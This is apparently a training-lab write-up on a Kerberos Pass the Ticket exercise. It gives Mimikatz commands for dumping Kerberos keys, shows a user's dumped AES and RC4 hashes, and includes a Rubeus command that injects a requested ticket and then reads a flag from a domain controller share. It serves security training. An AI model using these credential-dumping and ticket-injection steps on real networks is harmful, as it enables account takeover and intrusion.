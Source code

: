 <figure><img src=".gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

**Answer: 3**

<figure><img src=".gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

**Use john's TGT to perform a Pass the Ticket attack and retrieve the flag from the shared folder \DC01.inlanefreight.htb\john**

```cmd-session
privilege::debug
sekurlsa::ekeys
```

* john
  * aes256\_hmac: 9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc
  * rc4\_hmac\_nt: **c4b0e1b10c7ce2c4723b4e2407ef81a2**
* `Rubeus.exe asktgt /domain:inlanefreight.htb /user:john /rc4:c4b0e1b10c7ce2c4723b4e2407ef81a2 /ptt`
* `dir \DC01.inlanefreight.htb\john`
* `type \DC01.inlanefreight.htb\john\john.txt`

<figure><img src=".gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

<mark style="color:green;">**Learn1ng\_M0r3\_Tr1cks\_with\_J0hn**</mark>

**Use john's TGT to perform a Pass the Ticket attack and connect to the DC01 using PowerShell Remoting. Read the flag from C:\john\john.txt**
